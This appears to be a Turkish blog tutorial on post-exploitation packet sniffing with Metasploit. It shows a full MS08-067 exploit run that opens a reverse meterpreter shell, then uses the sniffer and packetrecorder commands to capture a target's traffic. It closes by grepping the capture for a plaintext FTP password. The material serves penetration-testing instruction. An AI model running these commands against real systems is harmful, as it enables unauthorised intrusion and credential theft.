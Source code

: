 ```yaml
---
draft: false

title:  'MSF Paket Dinleme'
date: '2017-06-05T13:32:00+03:00'
author: İbrahim Korucuoğlu ([@siberoloji](https://github.com/siberoloji))

description:  "Metasploit Framework kullanarak bir hedef bilgisayarda meterpreter shell açtığınızda, bağlandığınız bilgisayarın ağda yaptığı haberleşme esnasında gönderilen ve alınan bilgileri görmek isteyebilirsiniz. Bu işleme\_paket dinleme\_adı verilmektedir." 
 
url:  /tr/msf-paket-dinleme/
 
featured_image: /images/metasploit.jpg
categories:
    - 'Metasploit Framework'
tags:
    - cybersecurity
    - 'metasploit framework'
---
```



## Paket Dinleme



Metasploit Framework kullanarak bir hedef bilgisayarda meterpreter shell açtığınızda, bağlandığınız bilgisayarın ağda yaptığı haberleşme esnasında gönderilen ve alınan bilgileri görmek isteyebilirsiniz. Bu işleme **paket dinleme** adı verilmektedir.



Meterpreter, `sniffer` modülü ile bu trafiği kaydedebilirsiniz. Toplamda 200.000 pakete kadar kayıt yapabilen `sniffer` modülü, paketleri PCAP formatında kaydeder. Böylece PCAP dosyasını `psnuffle, dsniff veya wireshark` programlarıyla analiz edebilirsiniz.



Meterpreter `sniffer` eklentisi MicroOLAP Packet Sniffer SDK kullanır. Paketleri dinlemek için diskin herhangi bir yerinden veri alıp verme işlemi yapmaz. Ayrıca, meterpreter tarafından oluşturulan paketler kayıt dışı tutarak karışıklığın önüne de geçer. Meterpreter tarafından yakalanan veriler, bilgisayarımıza SSL/TLS kullanılarak şifreli olarak aktarılır.



## Meterpreter Oturum Açalım



Öncelikle keşfettiğiniz bir servis veya zafiyeti kullanarak meterpreter oturumu açmalısınız. Aşağıda örneğini görebilirsiniz.


```bash
msf **>** use exploit/windows/smb/ms08_067_netapi
msf exploit**(**ms08_067_netapi**)** **>** set PAYLOAD windows/meterpeter/reverse_tcp
msf exploit**(**ms08_067_netapi**)** **>** set LHOST 10.211.55.126
msf exploit**(**ms08_067_netapi**)** **>** set RHOST 10.10.1.119
msf exploit**(**ms08_067_netapi**)** **>** exploit

**[*********]** Handler binding to LHOST 0.0.0.0
**[*********]** Started reverse handler
**[*********]** Triggering the vulnerability...
**[*********]** Transmitting intermediate stager **for **over-sized stage...**(**216 bytes**)**
**[*********]** Sending stage **(**205824 bytes**)**
**[*********]** Meterpreter session 1 opened **(**10.10.1.4:4444 -> 10.10.1.119:1921**)**
```



## Sinffer Modülünü Yükleyelim



Meterpreter oturumu açıldığında `use sniffer` komutuyla eklentiyi aktif hale getirmeliyiz. Ardında `help` komutunu verdiğinizde, yardım listesinde `sniffer` ile ilgili kullanılabilir durumda olan komutları görebilirsiniz.


```bash
meterpreter **>** use sniffer
Loading extension sniffer...success.

meterpreter **>** help

Sniffer Commands
**================**

     Command             Description
     -------             -----------
     sniffer_dump        Retrieve captured packet data
     sniffer_interfaces  List all remote sniffable interfaces
     sniffer_start       Capture packets on a previously opened interface
     sniffer_stats       View statistics of an active capture
     sniffer_stop        Stop packet captures on the specified interface
```



## Dinlenebilir Arayüzler



Hedef sistemde hangi ağ arayüzlerinin aktif olduğunu görmek için `sniffer_interfaces` komutunu kullanarak listeyi inceliyoruz.


```bash
meterpreter **>** sniffer_interfaces

1 - 'VMware Accelerated AMD PCNet Adapter' **(** type:0 mtu:1514 usable:true dhcp:true wifi:false **)**
```



## Dinlemeye Başlama



Bizim örneğimizde 1 adet arayüz bulunmaktadır. Bu ağ cihazını dinlemek için `sniffer_start 1` komutunu veriyoruz. Bilgiler `/tmp/all.cap` dosyasına kayıt edilecektir.


```bash
meterpreter **>** sniffer_start 1
**[*********]** Capture started on interface 1 **(**200000 packet buffer**)**
```



## Kayıtları Kontrol Etme



Dinleme işlemi devam ederken, ne kadar paketin kayıt edildiğini görmek için `sniffer_dump` komutunu kullanarak kaç adet paketin dosyaya yazıldığını görebilirsiniz.


```bash
meterpreter **>** sniffer_dump 1 /tmp/all.cap
**[*********]** Dumping packets from interface 1...
**[*********]** Wrote 19 packets to PCAP file /tmp/all.cap

meterpreter **>** sniffer_dump 1 /tmp/all.cap
**[*********]** Dumping packets from interface 1...
**[*********]** Wrote 199 packets to PCAP file /tmp/all.cap
```



## packetrecorder Eklentisi



Meterpreter `sniffer` eklentisinin yanında paket dinleme için geliştirilen `packetrecorder` script kodlarını da kullanabilirsiniz. Bu modül, paket kayıtlarını belirli zaman aralıklarına bölmenizi sağlar. Örneğin 30 Saniye aralıklarla kayıt yapmak isteyebilirsiniz.



<h3 class="wp-block-heading" id="packetrecorder-aktif-hale-getirelim">packetrecorder Aktif Hale Getirelim


```bash
meterpreter **>** run packetrecorder 
Meterpreter Script **for **capturing packets **in **to a PCAP file
on a target host given a interface ID.

OPTIONS:

    -h        Help menu.
    -i   Interface ID number where all packet capture will be **done**.
    -l   Specify and alternate folder to save PCAP file.
    -li        List interfaces that can be used **for **capture.
    -t   Time interval **in **seconds between recollection of packet, default 30 seconds.
```



Dinlemeye başlamadan önce, dinlenebilir arayüzlerin listesini kontrol edelim.


```bash
meterpreter **>** run packetrecorder -li

1 - 'Realtek RTL8139 Family PCI Fast Ethernet NIC' **(** type:4294967295 mtu:0 usable:false dhcp:false wifi:false **)**
2 - 'Citrix XenServer PV Ethernet Adapter' **(** type:0 mtu:1514 usable:true dhcp:true wifi:false **)**
3 - 'WAN Miniport (Network Monitor)' **(** type:3 mtu:1514 usable:true dhcp:false wifi:false **)**
```



Bu örneğimizde 3 adet ağ cihazı olduğunu görüyoruz. `-i 2` seçeneği ile 2 numaralı arayüzü dinleyeceğimizi belirtmiş oluyoruz. `-l /root/` seçeneği ile PCAP dosyasının nereye kayıt edileceğini belirliyoruz. Dinleme başladığından bir süre sonra işlemi bitirmek için `CTRL+C` tuşlarını kullanabilirsiniz.


```bash
meterpreter **>** run packetrecorder -i 2 -l /root/
**[*********]** Starting Packet capture on interface 2
**[**+] Packet capture started
**[*********]** Packets being saved **in **to /root/logs/packetrecorder/XEN-XP-SP2-BARE_20101119.5105/XEN-XP-SP2-BARE_20101119.5105.cap
**[*********]** Packet capture interval is 30 Seconds
^C
**[*********]** Interrupt 
**[**+] Stopping Packet sniffer...
meterpreter **>**
```



Kayıt edilen PCAP dosyasını `wireshark` veya `tshark` programıyla analiz edebilirsiniz. Aşağıda `tshark` komutuna ait bir örnek bulunmaktadır. Örnek komutta, paketlerin içinde geçen `PASS` ifadesinin bulunduğu paketler aranmaktadır.


```bash
root@kali:~/logs/packetrecorder/XEN-XP-SP2-BARE_20101119.5105# tshark -r XEN-XP-SP2-BARE_20101119.5105.cap |grep PASS
Running as user "root" and group "root". This could be dangerous.
2489  82.000000 192.168.1.201 -> 209.132.183.61 FTP Request: PASS s3cr3t
2685  96.000000 192.168.1.201 -> 209.132.183.61 FTP Request: PASS s3cr3t```
